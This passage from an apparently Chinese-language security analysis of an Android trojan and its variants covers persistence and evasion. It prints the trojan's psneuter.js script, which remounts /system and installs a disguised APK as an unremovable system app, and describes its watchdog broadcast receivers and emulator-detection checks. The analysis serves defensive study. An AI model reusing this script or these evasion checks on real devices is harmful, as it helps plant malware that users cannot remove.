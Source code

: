 ![](http://drops.javaweb.org/uploads/images/b77be0956d86a9fd88c695aecb589d5738e484c9.jpg)

**图动态拦截返回**

1.  `suc f0h5zguZ9aJXbCZExMaN2kDhh6V0Uw== /system/bin/sh psneuter.js`
2.  `suc al1s7jBFNtn9faBmC0Jb9A9Ns1GZSg== /system/bin/sh psneuter.js`
3.  `suc HygZRm2IHTKWpp7Hll/sS0uY66xdcw== /system/bin/sh psneuter.js`

成功root后执行psneuter.js，木马将成功伪装成系统应用隐藏在用户手机，即使恢复出厂设置也无法卸载。

psneuter.js文件内容

```
#!/system/bin/sh
mount -o rw,remount /system
/data/local/tmp/busybox mount -o rw,remount /system
cat /data/local/tmp/14425728404326709.apk > /system/app/14425728404326709.apk
chmod 0644 /system/app/14425728404326709.apk
pm install /system/app/14425728404326709.apk
mount -o ro,remount /system
/data/local/tmp/busybox mount -o ro,remount /system
echo "Now, script finish!”

```

![](http://drops.javaweb.org/uploads/images/065c58bba946f31c2fb7195181906d5e0a0ba365.jpg)

**图 root成功木马伪装系统软件“下载服务”**

### c 不死服务LocationService, BlueService

只要保证两大核心服务LocationService，BlueService 不死，就可以一直在后台执行恶意代码。木马在启动核型服务LocationService,BlueService的同时，会注册守护广播，保证核心服务一直启动。

![](http://drops.javaweb.org/uploads/images/d3d4fa500bf4b130c0fa99bc4b624307a0c1d6b9.jpg)

**图启动LocationService服务同时注册守护广播**

守护服务的广播，通过监听屏幕开关、手机电量变化、时间更改，启动被保护的服务。

![](http://drops.javaweb.org/uploads/images/85da5fa796dd9478b9b2c966e6b852571f4b8106.jpg)

**图守护广播监听的消息**

0x03 变种追踪
=====

该样本存在大量变种，且都是由LocationService,BlueService核心服务演变而来，从最开始的恶意应用推广到云端root sdk配置，升级到通过短信盗号，对抗杀软检测在native层检测运行环境等。

对变种木马“内涵壁纸”样本分析，首先在native层检查运行环境，若不是模拟器才启动恶意广播。这样有效的躲避了动态引擎检测，以及逆向分析人员分析。

![](http://drops.javaweb.org/uploads/images/6738d721266ccf7098a685af44e21f5b591db824.jpg)

**图native层启动恶意广播**

模拟器检查，若木马运行环境在模拟器内，木马将不会启动恶意广播。模拟检查主要检查cpuinfo是否为goldfish，设备IDS是不是 “000000000000000”， imsi id是不是“310260000000000“，手机运营商等。
